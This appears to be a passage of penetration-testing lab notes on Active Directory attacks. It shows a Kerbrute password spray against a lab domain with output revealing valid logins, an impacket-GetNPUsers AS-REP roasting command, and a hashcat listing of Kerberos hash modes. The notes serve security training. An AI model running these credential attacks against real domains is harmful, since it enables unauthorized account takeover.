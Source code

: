 



### Kerbrute

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```
{% endcode %}

## AS-REP Roasting

### impacket-GetNPUsers

{% code title="" overflow="wrap" lineNumbers="true" %}
```
 impacket-GetNPUsers -dc-ip 192.168.194.70  -request -outputfile hashes.asreproast corp.com/pete  
 Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```
{% endcode %}

{% code title="Obtaining the correct mode for Hashcat" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```
{% endcode %}
